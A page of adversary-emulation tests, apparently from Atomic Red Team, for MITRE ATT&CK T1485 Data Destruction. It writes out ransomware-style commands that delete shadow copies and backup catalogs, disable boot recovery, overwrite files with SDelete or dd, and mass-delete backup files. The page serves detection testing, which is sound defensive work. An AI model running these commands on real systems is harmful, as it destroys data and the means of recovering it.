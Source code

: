 # T1485 - Data Destruction
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1485)
<blockquote>Adversaries may destroy data and files on specific systems or in large numbers on a network to interrupt availability to systems, services, and network resources. Data destruction is likely to render stored data irrecoverable by forensic techniques through overwriting files or data on local and remote drives.(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018)(Citation: Talos Olympic Destroyer 2018) Common operating system file deletion commands such as <code>del</code> and <code>rm</code> often only remove pointers to files without wiping the contents of the files themselves, making the files recoverable by proper forensic methodology. This behavior is distinct from [Disk Content Wipe](https://attack.mitre.org/techniques/T1488) and [Disk Structure Wipe](https://attack.mitre.org/techniques/T1487) because individual files are destroyed rather than sections of a storage disk or the disk's logical structure.

Adversaries may attempt to overwrite files and directories with randomly generated data to make it irrecoverable.(Citation: Kaspersky StoneDrill 2017)(Citation: Unit 42 Shamoon3 2018) In some cases politically oriented image files have been used to overwrite data.(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)

To maximize impact on the target organization in operations where network-wide availability interruption is the goal, malware designed for destroying data may have worm-like features to propagate across a network by leveraging additional techniques like [Valid Accounts](https://attack.mitre.org/techniques/T1078), [Credential Dumping](https://attack.mitre.org/techniques/T1003), and [Windows Admin Shares](https://attack.mitre.org/techniques/T1077).(Citation: Symantec Shamoon 2012)(Citation: FireEye Shamoon Nov 2016)(Citation: Palo Alto Shamoon Nov 2016)(Citation: Kaspersky StoneDrill 2017)(Citation: Talos Olympic Destroyer 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Windows Backup Catalog](#atomic-test-2---windows---delete-windows-backup-catalog)

- [Atomic Test #3 - Windows - Disable Windows Recovery Console Repair](#atomic-test-3---windows---disable-windows-recovery-console-repair)

- [Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete](#atomic-test-4---windows---overwrite-file-with-sysinternals-sdelete)

- [Atomic Test #5 - macOS/Linux - Overwrite file with DD](#atomic-test-5---macoslinux---overwrite-file-with-dd)

- [Atomic Test #6 - Windows - Delete Backup Files](#atomic-test-6---windows---delete-backup-files)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
vssadmin.exe delete shadows /all /quiet
```



<br/>
<br/>

## Atomic Test #2 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
wbadmin.exe delete catalog -quiet
```



<br/>
<br/>

## Atomic Test #3 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot.
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows



#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```


#### Cleanup Commands:
```
bcdedit.exe /set {default} bootstatuspolicy DisplayAllFailures
bcdedit.exe /set {default} recoveryenabled yes
```

<br/>
<br/>

## Atomic Test #4 - Windows - Overwrite file with Sysinternals SDelete
Overwrites and deletes a file using Sysinternals SDelete.
Requires the download of either Sysinternals Suite or the individual SDelete utility.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| file_to_overwrite | Path of file to overwrite and remove | Path | C:\some\file.txt|
| sdelete_exe | Path of sdelete executable | Path | PathToAtomicsFolder\T1485\bin\sdelete.exe|


#### Dependencies
##### Description:
Secure delete tool from Sysinternals must exist on disk at specified location (#{sdelete_exe})
##### Check Prereq Commands:
```notif (Test-Path #{sdelete_exe}) {0} else {1}
 ```
##### Get Prereq Commands:
```$client = new-object System.Net.WebClient
$client.DownloadFile("https://download.sysinternals.com/files/SDelete.zip", "$env:TEMP\SDelete.zip")
Expand-Archive $env:TEMP\SDelete.zip $env:TEMP\Sdelete -Force
New-Item #{sdelete_exe} -Force &#124; Out-Null
Copy-Item $env:TEMP\Sdelete\sdelete.exe #{sdelete_exe} -Force
```

#### Run it with `command_prompt`! 
```
New-Item $env:TEMP\T1485.txt
Set-Location #{sdelete_path}
.\sdelete.exe -accepteula $env:TEMP\T1485.txt
```



<br/>
<br/>

## Atomic Test #5 - macOS/Linux - Overwrite file with DD
Overwrites and deletes a file using DD.
To stop the test, break the command with CTRL/CMD+C.

**Supported Platforms:** CentOS, Linux, macOS, Ubuntu


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| overwrite_source | Path of data source to overwrite with | Path | /dev/zero|
| file_to_overwrite | Path of file to overwrite and remove | Path | /var/log/syslog|


#### Run it with `bash`! 
```
dd of=#{file_to_overwrite} if=#{overwrite_source}
```



<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware.

**Supported Platforms:** Windows


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```



<br/>

